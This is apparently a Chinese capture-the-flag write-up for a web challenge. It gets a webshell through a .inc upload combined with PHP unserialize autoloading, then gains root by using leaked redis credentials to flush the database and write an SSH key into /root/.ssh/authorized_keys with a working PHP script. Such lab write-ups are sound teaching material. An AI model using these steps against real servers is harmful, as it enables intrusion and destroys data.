





# 《三个白帽》某题的writeup

今天这个题还是很有意思的，大家玩的也很开心，现在已经结束了。 
明天还有一波邀请码，大家注意期待~ 

### 0x01 找到源码 
目标 http://24caf446e2bb0e659.jie.sangebaimao.com/ 
首先扫描发现其包含.git目录，但访问/.git/index发现没有这个文件，可能是被破坏了。 
用lijiejie的工具无法还原，但用某些工具还是可以办到的，详见我之前的文章：https://www.leavesongs.com/PENETRATION/XDCTF-2015-WEB2-WRITEUP.html 
就不再赘述，用某工具直接还原源码： 


### 0x02 getshell 
首先通读源码，发现有几个特点： 

> 1.  可以上传任意文件，后缀有黑名单检查，文件名是随机字符串md5值 
> 2.  数据存储于cookie中，通过php反序列化函数还原并显示 

其实考察点比较有意思。 
看到common.inc.php里，包含spl_autoload_register函数，这个函数是自动注册类用的，在当今特别是新型的框架（laravel、composer）中常用。 
这个函数有个特点，如果不指定处理用的函数，就会自动包含“类名.php”或“类名.inc”的文件，并加载其中的“类名”类。 
这就比较有意思了，我们之前的黑名单是不包括“.inc”文件的，所以我们可以按照下面方法进行getshell： 

1.上传webshell，后缀为.inc，被重命名为xxxx.inc 


2.序列化一个类名为xxxx的类对象 


3.将序列化以后的字符串作为cookie，发送到服务器上 


4.服务器反序列化这个字符串后，将会自动加载xxxx类，由于之前spl_autoload_register函数注册的方法，会自动加载xxxx.inc，从而造成文件包含漏洞，getshell成功 


在网站根目录的flag-1.php中获得第一个flag。 


### 0x03 利用本地redis提权 
拿到webshell以后，查看一下服务器的一些敏感信息。 
比如在phpinfo里看到了，session的处理方式用的redis，并且save_path里暴露了redis的端口和密码： 



于是可以利用这段时间比较火的redis写公钥文件进行提权。 
直接编写一个redis.php，用php来连接redis，执行redis写公钥的POC： 

```php
<?php 
$redis = new Redis(); 
$redis->connect('127.0.0.1', 21821); 
$redis->auth("Tat141uIyX8NKU"); 
$redis->flushall(); 
$redis->config("SET", "dir", "/root/.ssh/"); 
$redis->config("SET", "dbfilename", "authorized_keys"); 
$redis->set("0", "\n\n\nssh-rsa key_pub\n\n\n"); 
$redis->save();
```

连接其ssh端口，直接获取root权限。 
读取/root/flag-2.txt获得第二个flag。

